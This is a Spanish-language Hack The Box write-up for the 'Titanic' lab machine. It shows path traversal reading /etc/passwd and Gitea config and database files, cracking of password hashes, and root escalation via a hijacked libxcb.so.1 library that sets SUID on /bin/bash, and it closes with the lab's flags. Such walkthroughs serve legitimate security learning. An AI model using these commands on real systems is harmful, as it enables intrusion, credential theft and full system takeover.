

# MÁQUINA TITANIC
En el siguiente documento se describe la resolución de la máquina Titanic, de nivel fácil. 

**URL**: https://app.hackthebox.com/machines/Titanic

<br>

## · ENUMERACIÓN 
Realizamos un escaneo de puertos inicial. 
```
> nmap -sV -sC 10.10.11.55
```
- sV: para obtener la versión de los servicios encontrados. 
- sC: para ejecutar scripts de enumeración, nos proporciona información adicional de cada servicio encontrado.

Obtenemos lo siguiente:
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
Es decir, vemos 2 puertos abiertos:
- SSH (puerto 22): para conexiones remotas. Necesitaremos un nombre de usuario y contraseña.
- HTTP (puerto 80): servidor web. Podemos acceder a él desde el navegador. 

<br>


## · EXPLOTACIÓN

### 1. HTTP
Empezaremos viendo qué muestra el servidor web.
Introducimos lo siguiente en la barra del navegador:
```
http://10.10.11.55:80
```
Nos redirige a la dirección http://titanic.htb/, como ya advertía la enumeración.

> Sin embargo, aparece que es imposible acceder a la página web. Para arreglarlo, es necesario configurar el archivo /etc/hosts y añadir manualmente la dirección IP (10.10.11.55) y su correspondiente nombre de dominio (titanic.htb), así evitamos la resolución de DNS.


Ahora sí podemos ver la página web. 


Navegando un poco vemos que lo único que se puede hacer es reservar un viaje con los botones *'Book Your Trip'* o *'Book Now'*. Lo cual, al rellenar la información, nos descarga un archivo JSON.


No parece ser de más utilidad el archivo JSON, por lo que podemos probar a buscar subdirectorios con *gobuster* como alternativa. 
```
> gobuster dir -u http://titanic.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t100
```
De donde obtenemos:
```
/download             (Status: 400) [Size: 41]
/book                 (Status: 405) [Size: 153]
/server-status        (Status: 403) [Size: 276]
```
Si introducimos el subdominio /download, nos aparece un error indicando que falta el parámetro ticket en la ruta.


Este mensaje de error nos da una pista de que el endpoint */download* espera un parámetro *ticket*, por lo que podemos intentar realizar fuzzing sobre la URL. Escribimos la siguiente ruta para comprobar si el servidor es vulnerable a un Path Traversal.
```
> curl http://titanic.htb/download?ticket=../../../../etc/passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```
Nos interesan las rutas /home/\<usuario\>, las cuales aparecen con los usuarios syslog y developer. Sin embargo, solo developer es accesible por *SSH*, ya que tiene una shell válida (*/bin/bash*), mientras que syslog usa */usr/sbin/nologin* (que bloquea el acceso).
```
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
```

Sabiendo el nombre de usuario, podemos introducir la ruta *"/download?ticket=../../../../home/developer/user.txt"* y obtener exitosamente la **flag de usuario**.
```
> curl -s "http://titanic.htb/download?ticket=../../../../home/developer/user.txt"    

b12d7bc5fe9f355b0910a94e94be1579
```

>Intenté también conectarme mediante SSH al usuario 'developer' y encontrar una contraseña por fuerza bruta (Hydra) para después escalar permisos, pero se rechazaba la conexión. <br> 

<br>

Entonces probé a buscar subdominios, en vez de subdirectorios.
```
> wfuzz -c -w /usr/share/wordlists/dnsmap.txt -H "Host: FUZZ.titanic.htb" -u http://titanic.htb/ --hc=301

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://titanic.htb/
Total requests: 17576

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000002154:   200        275 L    1278 W     13870 Ch    "dev"                                              

Total time: 353.5109
Processed Requests: 17576
Filtered Requests: 17575
Requests/sec.: 49.71840
```

De nuevo debemos modificar */etc/hosts* para acceder. Una vez dentro, vemos una página de Gitea con los siguientes repositorios:


Dentro de *developer/docker-config/mysql/docker-compose.yml* encontramos:
```
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```
Vemos ya una contraseña: *MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'*.

<br>

Además, en *docker-config/gitea/docker-compose.yml*, también vemos la siguiente ruta:
```
/home/developer/gitea/data:/data
```
Combinado con la información de la documentación de Gitea, que nos dice que el archivo de configuración se guarda en la siguiente ruta...


Podemos obtener lo siguiente:
```
> curl -s "http://titanic.htb/download?ticket=../../../../home/developer/gitea//data/gitea/conf/app.ini"

...

[database]
PATH = /data/gitea/gitea.db <------------ ruta a la base de datos
DB_TYPE = sqlite3
HOST = localhost:3306
NAME = gitea
USER = root
PASSWD = 
LOG_SQL = false
SCHEMA = 
SSL_MODE = disable

...

```
Nos descargamos la base de datos. 
```
> curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
```
```
> ls
gitea.db
```

Ahora podemos abrir la base de datos y acceder a su información.
```
> sqlite3 gitea.db
```
Pedimos ver las tablas. 
```
sqlite> .tables
```
Y de todas las mostradas, nos interesa *user*.


Me voy a ayudar del siguiente repositorio público para obtener los hashes de la tabla de datos.
```
wget https://gist.githubusercontent.com/h4rithd/0c5da36a0274904cafb84871cf14e271/raw/f109d178edbe756f15060244d735181278c9b57e/gitea2hashcat.py
python3 gitea2hashcat.py gitea.db > hashes.txt
```
Ya los tenemos en el archivo *hashes.txt*:
```
> cat hashes.txt     
sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
sha256:50000:PekE/gzCqO80hBRoMJM9Qg==:oawNIDPvnHM+7jIEGrEF2tvEUCVsLXOGdOUtCqjSJHwVlvXsULPWZt4lkF1KnD1selU=
sha256:50000:7C6BXtW74Irxw4k/knt6mg==:KaUTefvWYaW5mh7Xz1MDb3uZ/YMJytA5CIyglBFlyUGSVn5iq2genzlHUHCHlQz4TRg=
sha256:50000:8gQNwPWfl42MhpcQ627t6w==:qide6JFnxqvKVLlXfTa6DT2xx45tNjKTi/+CjASgfgKdv8BXN/LUgAxWxSTp7WyrP0Q=
```

Usamos hashcat para crackear el hash (-m 10900 para indicar el tipo de hash con el que estamos trabajando. Sería -m 0 para MD5, -m 100 para SHA1, etc.). 
```
> hashcat -m 10900 hashes hash.txt /usr/share/wordlists/rockyou.txt 
```
Y obtenemos la clave *25282528*!!!
```
sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=:25282528
```
Podemos hacer SSH por fin. 

<br>

### 2. SSH
Introducimos el usuario *'developer'* y contraseña *'25282528'* obtenidos. 


<br>

## · ESCALADA DE PRIVILEGIOS
Una vez dentro, preguntamos qué usuario somos y qué permisos tenemos.
```
developer@titanic:~$ whoami
developer                                                              
developer@titanic:~$ sudo -l                                                                                                            
[sudo] password for developer:                                                                                                                        
Sorry, user developer may not run sudo on titanic.   
```


También podemos ver qué procesos están corriendo. 


El primer proceso, de *app.py*, nos puede resultar interesante pues hemos visto ya ese archivo en el repositorio de Gitea. Veamos qué hay dentro y si podemos editar algo de la carpeta */opt/*. 
```
developer@titanic:~$ ls -la /opt/
total 20
drwxr-xr-x  5 root root      4096 Feb  7 10:37 .
drwxr-xr-x 19 root root      4096 Feb  7 10:37 ..
drwxr-xr-x  5 root developer 4096 Feb  7 10:37 app
drwx--x--x  4 root root      4096 Feb  7 10:37 containerd
drwxr-xr-x  2 root root      4096 Feb  7 10:37 scripts
```

Estamos dentro del grupo de app, y 'drwxr-xr-x' nos indica que, como miembros del grupo, podemos ejecutar y leer, pero no escribir. 
Tras explorar los directorios uno a uno, nos llama la atención esto de */scripts/*. 


Tenemos un script *identify_images.sh*, el cual lo primero que hace es abrir otro directorio *"cd /opt/app/static/assets/images/"*. Veamos qué permisos tenemos en ese directorio.


Somos del grupo y, según indica *'drwxrwx---'*, podemos leer, ejecutar y escribir. Creamos un library hijacking. 

Del siguiente repositorio (https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8) obtengo este código:


En el que vamos a cambiar la línea *system("id")*, para que la máquina ejecute lo que sea que escribimos dentro del comando. Lo cambiamos a *"chmod u+s /bin/bash"*.

Con esto haremos que:
```
developer@titanic:~$ ls -la /bin/bash
-rwxr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Cambie a:
```
developer@titanic:~$ ls -la /bin/bash
-rwsr-xr-x 1 root root 1396520 Mar 14  2024 /bin/bash
```
Es decir, haremos que el binario */bash* tenga el bit SUID, lo cual significa que será un archivo que nos permitirá escalar privilegios. 

Nos movemos a la carpeta /images/ y escrimos el código. 
```
developer@titanic:~$ cd /opt/app/static/assets/images/

developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("chmod u+s /bin/bash");
    exit(0);
}
EOF
```
Veremos que eventualmente cambian los permisos de /bin/bash:



Ya podemos escalar privilegios con este archivo y hacernos root. 
```
developer@titanic:/opt/app/static/assets/images$ /bin/bash -p
bash-5.1# whoami
root
bash-5.1# 
```

Con esto ya hemos resuelto la máquina y solo nos queda encontrar la **flag de root**, que se encuentra en /root/root.txt. 
```
bash-5.1# ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  luxury-cabins.jpg  metadata.log

bash-5.1# cd /root/

bash-5.1# ls
cleanup.sh  images  revert.sh  root.txt  snap

bash-5.1# cat root.txt 
962f1d116e1460510dddf33a24a475a6
```


## FLAGS

- **Flag de usuario:** b12d7bc5fe9f355b0910a94e94be1579
- **Flag de root:** 962f1d116e1460510dddf33a24a475a6

<br>

>Añadir que, como principiante, esta  parte de escalar privilegios me fue de gran dificultad y tuve que apoyarme de las siguientes resoluciones online: <br>
https://xhuntr3ss.gitbook.io/xhuntr3sss-hack-vault/usd-vault/vaultusd-walkthroughs/htb-titanic#privilege-escalation <br>
https://youtu.be/tlL94A19EmE?si=dy0R_hStZP89OqFX <br>
https://albertoestrada.es/hacking/write-up/hack-the-box/titanic/